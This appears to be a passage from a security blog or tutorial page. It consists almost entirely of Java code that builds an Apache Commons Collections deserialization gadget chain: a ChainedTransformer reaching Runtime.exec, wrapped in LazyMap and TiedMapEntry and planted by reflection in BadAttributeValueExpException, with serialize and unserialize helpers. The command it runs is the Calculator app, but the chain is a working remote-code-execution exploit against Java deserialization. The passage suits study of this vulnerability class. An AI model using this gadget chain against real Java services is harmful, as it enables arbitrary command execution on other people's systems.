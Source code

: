 ```java  
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),    
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap<Object, Object> map = new HashMap<>();    
        Map<Object,Object> lazymap = LazyMap.decorate(map,chainedTransformer);    
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,1);    
    
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);    
        Class c = Class.forName("javax.management.BadAttributeValueExpException");    
        Field valField = c.getDeclaredField("val");    
        valField.setAccessible(true);    
        valField.set(badAttributeValueExpException,tiedMapEntry);    
    
        //serialize(badAttributeValueExpException);    
        unserialize("ser.bin");    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172022766.png)
  